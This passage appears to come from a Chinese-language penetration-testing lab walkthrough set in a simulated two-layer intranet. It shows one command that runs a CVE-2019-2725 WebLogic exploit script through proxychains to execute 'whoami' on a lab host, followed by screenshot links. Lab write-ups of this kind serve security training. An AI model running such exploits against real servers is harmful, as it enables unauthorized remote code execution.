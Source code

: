 ![27.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=0bcf4f2e-51b4-43eb-8eff-4e433a01ad06.png)

#### 7.2 Weblogic漏洞利用

使用脚本利用`CVE-2019-2725`漏洞

##### 7.2.1 远程命令执行

```
cd /root/Desktop
proxychains python3 weblogic-CVE-2019\-2725.py 10.3.6 http://172.22.0.20:7001/ whoami

```

![28.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=150dc3dc-a19d-4dcc-b944-aa9ff95d6ae3.png)
